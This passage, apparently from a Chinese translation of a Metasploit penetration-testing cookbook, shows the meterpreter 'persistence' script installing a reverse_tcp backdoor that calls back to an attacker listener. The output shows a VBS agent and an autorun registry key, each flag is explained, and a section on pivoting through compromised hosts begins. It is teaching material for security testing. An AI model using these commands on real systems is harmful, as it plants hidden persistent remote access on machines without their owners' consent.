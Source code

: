 如您所见，它与 Metsvc 相比有一些额外的选项。让我们执行脚本，并根据我们的需求传递不同的参数。

```
meterpreter > run persistence -A -S -U -i 60 -p 4321 -r 192.168.56.101
[*] Running Persistance Script
[*] Resource file for cleanup created at /root/.msf4/logs/persistence/DARKLORD-PC_20111227.0307/DARKLORD-PC_20111227.0307.rc
[*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4321
[*] Persistent agent script is 610795 bytes long
[+] Persistent Script written to C:\Users\DARKLORD\AppData\Local\Temp\LHGtjzB.vbs
[*] Starting connection handler at port 4321 for windows/meterpreter/reverse_tcp
[+] Multi/Handler started!
[*] Executing script C:\Users\DARKLORD\AppData\Local\Temp\LHGtjzB.vbs
[+] Agent executed with PID 5712
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\DBDalcOoYlqJSi
[+] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\DBDalcOoYlqJSi
[*] Installing as service..
[*] Creating service cpvPbOfXj 
```

## 它是如何工作的...

注意脚本传递的不同参数。`-A` 参数会在攻击机器上自动启动监听器。`-S` 操作符设置后门在每次 Windows 启动时加载。`-U` 操作符在用户登录系统时执行后门。`-i` 操作符设置后门尝试连接回代理处理程序的间隔。`-p` 是端口号，`-r` 是目标机器的 IP 地址。脚本执行的输出还包含一些有用的信息。脚本已经创建了一个资源文件用于清理，以便在使用后删除后门。脚本已经在目标机器的`temp`文件夹中创建了一个 vbs 文件。它还创建了注册表条目，以便在每次 Windows 启动时自动加载后门。

我们为后门设置了 60 秒的间隔，以便连接回代理处理程序。在脚本成功执行后，您将看到在 60 秒的间隔内，meterpreter 会自动在目标机器上打开一个会话。

这个快速演示解释了我们如何与目标机器建立持久连接。您可以尝试使用这两个脚本进行不同的场景，并分析其工作原理。在下一个示例中，我们将专注于另一个有趣的概念，称为转向。

# 使用 meterpreter 进行转向

到目前为止，我们已经涵盖了大部分主要的 meterpreter 命令和脚本。您一定已经注意到了在后期利用阶段，meterpreter 可以有多么强大。在这个示例中，我们将讨论一个最酷的，也是我最喜欢的概念之一，称为转向。让我们从理解转向的含义开始，为什么需要它，最后 Metasploit 如何在转向中有用。

## 准备工作

在开始使用这个示例之前，让我们首先详细了解转向。转向是指渗透测试人员使用 compromise 的系统来攻击同一网络上的其他系统的方法。这是一个多层次的攻击，在这个攻击中，我们可以访问甚至那些仅供本地内部使用的网络区域，比如内部网。考虑下面图中显示的情景。

![准备工作](img/7423_06_02.jpg)
